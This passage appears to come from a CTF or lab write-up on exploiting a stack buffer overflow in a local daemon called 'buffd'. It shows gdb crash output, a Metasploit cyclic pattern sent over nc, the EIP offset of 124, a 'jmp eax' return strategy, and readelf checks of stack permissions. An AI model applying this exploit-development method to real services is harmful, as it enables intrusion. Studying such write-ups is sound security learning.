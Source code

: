 Program received signal SIGSEGV, Segmentation fault.
[Switching to process 4201]
0x65413165 in ?? ()
(gdb) i r
eax            0xbfffe790       -1073748080
ecx            0x0      0
edx            0xca     202
ebx            0xb7fbeff4       -1208225804
esp            0xbfffe810       0xbfffe810
ebp            0x41306541       0x41306541
esi            0x0      0
edi            0x0      0
eip            0x65413165       0x65413165
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x /5x $eax
0xbfffe790:     0x41306141      0x61413161      0x33614132      0x41346141
0xbfffe7a0:     0x61413561

root@kali32:~# nc 127.0.0.1 7777
HELO
COMMAND:Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
^C
root@kali32:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x65413165
[*] Exact match at offset 124
root@kali32:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x41306141
[*] Exact match at offset 0
{% endcodeblock %}

EIP begins on offset 124 and the register EAX points to the beginning of our
buffer, right now filled with pattern. Luckily, we find jmp eax opcodes in
binary too.

The strange thing is that the stack in binary is marked as not executable, 
but on this server the exploit works and we don't get segfault:
{% codeblock %}
www-data@:/home/testuser $ readelf -lW /usr/local/sbin/buffd
Elf file type is EXEC (Executable file)
Entry point 0x80488e0
There are 7 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x000e0 0x000e0 R E 0x4
  INTERP         0x000114 0x08048114 0x08048114 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x01004 0x01004 R E 0x1000
  LOAD           0x001004 0x0804a004 0x0804a004 0x00170 0x0017c RW  0x1000
  DYNAMIC        0x001018 0x0804a018 0x0804a018 0x000d0 0x000d0 RW  0x4
  NOTE           0x000128 0x08048128 0x08048128 0x00020 0x00020 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
{% endcodeblock %}
